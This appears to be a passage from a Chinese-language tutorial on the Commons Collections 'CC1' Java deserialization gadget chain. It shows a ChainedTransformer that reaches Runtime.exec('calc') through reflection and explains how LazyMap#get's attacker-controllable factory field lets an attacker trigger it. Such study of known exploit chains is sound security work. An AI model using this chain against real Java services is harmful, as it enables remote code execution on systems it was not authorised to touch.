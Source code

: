 在Java 8u71以后的版本中，由于 sun.reflect.annotation.AnnotationInvocationHandler 发⽣了变化导致不再可⽤，

#### Lazymap类的利用

JDK1.7

回到上面，已经构造的链子如下：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
```

cc1里面用到了 Lazymap#get 这个方法：

![1](./img/299.png)

如果这里的 factory 可控，那么调用任意类的 transform 方法了，然后就需要寻找什么地方调用到了get方法，

这里的 factory 并没有被 transient 以及 static 关键字修饰，所以是我们可控的，并且由于 factory 是在类初始化时定义的，所以我们可以通过创建 LazyMap 实例的方式来设置他的值。

![1](./img/300.png)
